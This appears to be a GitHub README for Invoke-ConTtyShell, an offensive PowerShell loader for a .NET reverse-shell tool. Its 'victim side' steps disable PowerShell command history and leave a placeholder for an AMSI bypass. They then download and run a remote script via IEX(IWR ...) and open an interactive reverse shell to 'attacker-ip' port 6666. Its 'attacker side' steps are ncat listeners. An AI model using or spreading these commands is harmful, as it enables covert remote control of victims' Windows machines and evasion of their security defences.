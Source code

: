 # Invoke-ConTtyShell
.Net Assembly loader for [ConTtyShell](https://github.com/ricardojba/ConTtyShell)


Tested on:
* Windows 10 22H2 x64
* Windows 11 22H2 x64

Victim side usage:

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing

<Insert-Your-AMSI-Bypass-From-AMSI.FAIL-Here>

[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
# [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

[system.net.webrequest]::defaultwebproxy = new-object system.net.webproxy('http://proxy:8080')
[system.net.webrequest]::defaultwebproxy.BypassProxyOnLocal = $true
[system.net.webrequest]::defaultwebproxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

# [system.net.webrequest]::defaultwebproxy.credentials = Get-Credential

IEX(IWR -UseBasicParsing -UserAgent "hi-there-blueteam" 'https://raw.githubusercontent.com/ricardojba/Invoke-ConTtyShell/main/Invoke-ConTtyShell.ps1')

Invoke-ConTtyShell -Command "attacker-ip 6666"
```

Attacker side usage:

```
stty raw -echo; (stty size; cat) | ncat -lvnp 6666

Or

rlwrap ncat -lvnp 6666
```

